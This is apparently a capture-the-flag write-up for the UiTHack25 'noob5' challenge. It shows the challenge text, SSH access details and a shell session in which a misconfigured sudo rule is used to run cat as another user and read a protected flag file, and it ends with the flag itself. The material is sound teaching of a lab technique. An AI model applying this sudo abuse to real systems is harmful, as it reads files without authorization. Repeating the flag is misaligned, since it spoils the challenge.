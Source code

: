 # noob5

One last time the flag has been stolen. This time they even had courage to invite us to take it back. This must mean they are confident in their countermeasures. We don't really have a choice though. Best of luck
You can connect to their server with the following command `ssh noob5@uithack-2.td.org.uit.no -p 6004`
The password is the flag from the previous noob challenge.
Use command `exit` to disconnect from the server when you are done.


# Writeup

```
noob5@6f000751587e:~$ ls
flag.txt
noob5@6f000751587e:~$ cat flag.txt 
cat: flag.txt: Permission denied
noob5@6f000751587e:~$ ls -lah
total 20K
drwxr-xr-x 1 root root    4.0K Feb 23 17:08 .
drwxr-xr-x 1 root root    4.0K Feb 23 17:07 ..
-rw-r----- 1 root captain   30 Jan 22 16:23 flag.txt
noob5@6f000751587e:~$ sudo -l
Matching Defaults entries for noob5 on 6f000751587e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User noob5 may run the following commands on 6f000751587e:
    (mr_captain) NOPASSWD: /usr/bin/cat
noob5@6f000751587e:~$ sudo -u mr_captain /usr/bin/cat flag.txt 
UiTHack25{I_4M_D4_C4P74IN_N0W}
```

# Flag

```
UiTHack25{I_4M_D4_C4P74IN_N0W}
```